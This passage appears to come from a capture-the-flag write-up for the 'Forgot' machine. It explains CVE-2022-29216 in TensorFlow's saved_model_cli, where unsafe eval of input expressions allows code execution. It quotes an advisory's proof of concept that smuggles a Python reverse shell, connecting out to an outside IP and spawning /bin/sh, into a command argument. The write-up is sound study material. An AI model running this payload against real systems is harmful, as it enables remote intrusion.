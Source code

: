 And if it does score higher than 0.5, it sends it to `preprocess_input_exprs_arg_string`, which is imported from at the top:

```

from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string

```

### CVE-2022-29216

#### Background

I’ll try to figure out what `preprocess_input_exprs_arg_string`, Googling for the function name returns a bunch of info about CVE-2022-29216:

![image-20230224095418749](https://0xdfimages.gitlab.io/img/image-20230224095418749.png)

The top result is [this advisory](https://github.com/advisories/GHSA-75c9-jrh4-79mc), which contains a POC for a reverse shell:

```

saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
--dir ./ --tag_set serve --signature_def serving_default

```

The issue comes in `preprocess_input_exprs_arg_string`, where if it’s called with `safe=False` (like it is above), then the user input is passed to `eval`:

```

def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
...[snip]...
  for input_raw in filter(bool, input_exprs_str.split(';')):
...[snip]...
    if safe:
...[snip]...
    else:
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict

```

#### preprocess\_input\_exprs\_arg\_string

While I have all I need at this point to escalate on Forgot, I’m interested to understand what this code does, and see what changes were made to the code to patch this vulnerability.

I’ll walk through this in a [short video](https://www.youtube.com/watch?v=S3BrESgR_Gg) and in text below:
